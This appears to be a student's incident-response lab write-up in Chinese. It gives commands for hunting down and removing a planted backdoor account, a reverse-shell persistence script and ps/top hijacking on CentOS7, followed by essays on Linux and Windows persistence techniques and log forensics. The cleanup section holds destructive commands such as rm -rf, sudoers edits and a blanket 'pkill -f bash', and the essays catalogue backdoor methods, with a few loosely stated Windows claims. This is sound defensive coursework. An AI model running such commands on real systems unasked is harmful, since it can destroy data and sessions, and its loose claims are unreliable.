

# 删除劫持软链接

rm -f /usr/bin/ps /usr/bin/top

# 还原原始程序

mv /usr/bin/ps.bak /usr/bin/ps

mv /usr/bin/top.bak /usr/bin/top

# 删除劫持过滤脚本

rm -f /usr/bin/cbh_hide.sh

# 验证恢复

ps -ef | grep cbh_back.sh



4、服务器可疑项排查与清除  操作主机：CentOS7

用户权限排查：UID=0 异常账号、wheel 陌生用户、/etc/sudoers 非法权限配置；

awk -F: '$3==0{print $0}' /etc/passwd



grep wheel /etc/group



visudo -c #语法校验+查看配置

cat /etc/sudoers | grep -v "^#" | grep -v "^$"



特殊权限排查：全局 SUID 高危程序、chattr 锁定的恶意文件；

find / -perm -4000 -type f 2>/dev/null



lsattr /usr/local/bin/

lsattr /etc/profile /etc/cron.d/ /etc/systemd/system/



进程网络排查：外联陌生 C2 地址、异常监听端口、被命令劫持隐藏的恶意进程；

netstat -antp | grep bash

ss -antp | grep 3366



/usr/bin/ps.bak -ef



持久化后门排查：定时任务 crontab、systemd 恶意服务、全局 / 用户环境变量恶意代码；

cat /etc/profile /etc/bashrc





ls /etc/systemd/system/*.service

systemctl list-unit-files --type=service | grep enabled



ls /etc/cron.d/ /etc/crontab /var/spool/cron/

cat /etc/cron.d/cbh_cron

crontab -l -u root



日志溯源排查：/var/log/secure 登录日志、/var/log/cron 计划任务日志，还原入侵时间线；

cat /var/log/secure



grep useradd /var/log/secure



cat /var/log/cron



全面清理：删除所有后门脚本、恶意账户、异常服务、定时任务，恢复系统原始文件与权限

# 1. 清理UID0后门账户（题目1）

userdel -r cbh;groupdel cbhgroup

sed -i '/cbh/d' /etc/sudoers

# 2. 清理反弹shell持久化后门（题目2）

rm -rf /usr/local/bin/cbh_back.sh

sed -i '/cbh_back.sh/d' /etc/profile

rm -f /etc/cron.d/cbh_cron

systemctl stop cbhback.service;systemctl disable cbhback.service

rm -f /etc/systemd/system/cbhback.service

systemctl daemon-reload

pkill -f cbh_back.sh

# 3. 清理ps/top命令劫持（题目3）

rm -f /usr/bin/cbh_hide.sh /usr/bin/ps /usr/bin/top

mv /usr/bin/ps.bak /usr/bin/ps;mv /usr/bin/top.bak /usr/bin/top

# 4. 解锁恶意锁定文件、清理SUID非法程序

chattr -i $(find /usr/local/bin -attr i 2>/dev/null)

# 5. 残留进程查杀

pkill -f bash



特别说明：部分输出xxx不存在等情况，是因为我在此之前已经执行过清理操作。

附加题：

Linux与Windows系统在用户权限机制上的核心区别（UID 机制 vs SID、管理员账户差异）

（1）Linux UID 机制

每个用户唯一数字 UID，root 固定 UID=0，拥有系统最高权限；普通用户 UID≥1000。

权限基于 UID/GID 判定，文件权限存储 rwx 归属 UID/GID，和用户名无关。

wheel 组为特权组，加入后可通过 sudo 临时提权至 root。

管理员账户仅 root，无分级管理员，所有高权限操作依赖 UID0。

（2）Windows SID 机制

安全标识符 SID 为字符串唯一标识用户 / 组，无固定数字管理员 ID；内置管理员 SID S-1-5-32-544。

权限基于 ACL 访问控制列表，文件 / 注册表携带访问控制权限，支持细粒度权限。

管理员分本地管理员、域管理员，默认 UAC 用户账户控制，登录默认降权，操作高危程序需弹窗提权。

无 UID 等效机制，不存在一个账号拥有内核无限制权限，即使管理员也受 UAC、系统保护机制限制。

核心差异总结

身份标识：Linux 数字 UID；Windows 字符串 SID

最高权限：Linux UID=0 单一根；Windows 管理员受 UAC 限制

权限模型：Linux 自主 rwx 极简模型；Windows ACL 精细化访问控制

分别说明Linux、Windows主流持久化后门技术

Linux 持久化

全局环境变量：/etc/profile、/etc/bashrc 登录执行恶意脚本

Systemd 自定义服务：开机自启、异常自动重启反弹 shell

Crontab 定时任务：/etc/cron.d 全局、root 用户定时任务每分钟执行

UID=0 影子账户、sudoers 无密码提权后门

rc.local 开机启动脚本、~/.bashrc 用户登录后门

命令劫持（ps/top/ls 替换脚本隐藏进程）

SUID 提权恶意程序、chattr 锁定后门文件防删除

Windows 持久化

注册表启动项：Run、RunOnce、Services 服务项

计划任务 Task Scheduler 定时执行木马

服务持久化：NSSM 封装 exe 为系统服务开机自启

登录脚本、组策略启动脚本

WMI 事件订阅、Office 宏后门

DLL 劫持、进程注入、映像劫持 IFEO 劫持系统程序

说明Linux日志与Windows事件日志的存放路径、日志分析思路、清除痕迹后的取证差异

（1）Linux 日志存放路径（CentOS7）

用户登录、sudo 操作：/var/log/secure

定时任务执行记录：/var/log/cron

系统开机、服务启动：/var/log/messages

登录历史：/var/log/wtmp（last 命令读取）、/var/log/btmp（失败登录）

Linux 日志分析思路：

secure 日志检索 useradd、su、sudo 关键词，定位账户后门创建时间

cron 日志查看新增定时任务、脚本执行记录

wtmp 审计所有主机登录 IP、登录时间

结合进程启动时间匹配日志时间线还原入侵流程

（2）Windows 事件日志存放路径

存储文件：C:\Windows\System32\winevt\Logs\

分类：安全日志 Security.evtx、系统 System.evtx、应用程序 Application.evtx

查看工具：事件查看器 eventvwr.msc

Windows 日志分析思路：

安全日志 4624 登录、4672 管理员登录、4720 新建账户事件

系统日志查看服务安装、开机程序启动事件

任务计划程序事件，审计木马定时执行行为

清除痕迹后的取证差异

Linux

攻击者可直接 rm 清空日志、覆盖日志文件；基础删除后可通过磁盘数据恢复工具找回日志残留块；但日志文本无内置签名，覆盖后取证难度极高。chattr 锁定日志可阻止日志轮转写入。

Windows EVTX 日志

二进制结构化日志，自带校验、分块存储；单纯删除 evtx 文件会触发系统自动重建空白日志；日志存在内存缓存、磁盘页交换残留；即使清空日志，注册表、卷影副本中仍留存日志快照，相比 Linux 纯文本日志更难彻底抹除痕迹，取证留存线索更多。
